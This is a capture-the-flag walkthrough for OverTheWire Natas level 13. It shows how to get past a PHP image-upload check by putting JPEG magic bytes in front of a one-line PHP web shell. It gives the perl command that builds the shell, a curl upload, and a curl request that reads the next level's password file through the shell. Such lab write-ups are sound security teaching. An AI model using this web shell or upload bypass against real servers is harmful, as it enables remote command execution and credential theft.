 Level 13
--------

Oh, now they only accept image files. I bet we can get around
that restriction just like we did when they disallowed certain
characters in the search term. Let's examine the code.

Here's the new part of the code:

    if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    }

Let's look up the `exif_imagetype` function so we can figure out
how to manipulate the return value:

> exif_imagetype() reads the first bytes of an image and checks its signature.

Okay, so the first bytes of our payload now have to be the magic
bytes to make this return true.

> When a correct signature is found, the appropriate constant
> value will be returned otherwise the return value is FALSE.

So, we can pick any supported image type we want. Pick one from
<http://www.astro.keele.ac.uk/oldusers/rno/Computing/File_magic.html>
and use the magic numbers like so:

    perl -E 'my $magic_numbers = "\x{ff}\x{d8}\x{ff}\x{e0}"; say $magic_numbers . q{<? passthru($_GET["cmd"]); ?>};' > shell.php

Now if we upload this, the upload code will think it is a JPG image,
but since it has a `.php` extension, Apache will execute it as PHP.

We'll be able to run our exploit as before.


    curl -u natas13:... \
        -F MAX_FILE_SIZE=1000 \
        -F filename=pwnd.php \
        -F "uploadedfile=@shell.php" \
        http://natas13.natas.labs.overthewire.org/index.php

    curl -u natas13:... \
        "http://natas13.natas.labs.overthewire.org/upload/dz31pf9ai5.php?cmd=cat%20/etc/natas_webpass/natas14"

    ����...

Remember, PHP is not a programming language, it is a templating language,
so Apache outputs the magic bytes we inserted, and then the output of the
PHP code it executed. So, skip the first 4 bytes of the response, and
take the remainder as your password for the next level.
